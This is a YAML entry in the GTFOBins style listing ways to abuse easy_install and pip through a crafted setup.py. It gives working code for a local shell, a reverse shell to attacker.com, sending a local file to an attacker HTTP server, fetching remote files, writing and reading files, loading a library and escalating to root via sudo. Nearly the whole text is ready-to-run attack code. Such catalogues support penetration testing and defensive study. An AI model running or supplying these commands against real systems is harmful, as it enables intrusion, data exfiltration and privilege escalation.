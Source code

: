 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        easy_install $TF
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' > $TF/setup.py
        easy_install $TF
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        easy_install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        easy_install $TF
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file path must be absolute.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
        pip install $TF
  file-write:
    - description: The file path must be absolute.
      code: |
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', 'python', '-c', 'open(\"$LFILE\",\"w+\").write(\"DATA\")')" > $TF/setup.py
        easy_install $TF
  file-read:
    - description: The read file content is wrapped within program messages.
      code: |
        TF=$(mktemp -d)
        echo 'print(open("file_to_read").read())' > $TF/setup.py
        easy_install $TF
  library-load:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        easy_install $TF
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo easy_install $TF
---
```

